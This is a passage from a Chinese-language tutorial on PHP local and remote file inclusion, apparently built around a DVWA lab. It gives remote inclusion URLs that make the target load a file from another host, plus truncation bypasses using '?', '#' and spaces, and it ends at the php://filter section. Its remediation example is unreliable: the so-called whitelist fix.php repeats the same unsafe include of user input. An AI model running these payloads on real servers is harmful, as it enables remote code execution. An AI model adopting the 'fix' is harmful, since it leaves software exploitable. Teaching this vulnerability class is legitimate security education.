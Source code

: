 访问http://192.168.1.114/DVWA/vulnerabilities/fi/?page=http://192.168.1.106/test2.txt

**有限制的远程文件包含漏洞**

```php
//测试代码

<?php
include($_GET['filename'].".html");
?>
```

- 问号绕过
- #绕过
- 空格绕过

```
https://127.0.0.1/index.php?filename=http://192.168.91.133/FI/php.txt[?|%23| ]
```

**4.3文件包含漏洞修复方式**

1.限制代码/白名单

```php
//fix.php

<?php

$filename=$_GET['filename'];
include($filename.".html");

?>
```

2.尽量关闭allow_url_include配置

3.过滤.（点）/（反斜杠）\（反斜杠）等特殊字符

4.PHP 中使用 open_basedir 设置可以包含的特定目录

**about** **open_basedir**

该配置可以设置你访问目录的权限

比如可以设置成例如open_basedir=/var/www/html/

## 0x05、文件包含漏洞之伪协议

```
- allow_url_fopen
//默认是ON，允许url里的封装协议访问文件
- allow_url_include=On
//默认是OFF，不允许url里的封装协议包含文件
```

#### **5.1php://filter**

**利用条件**

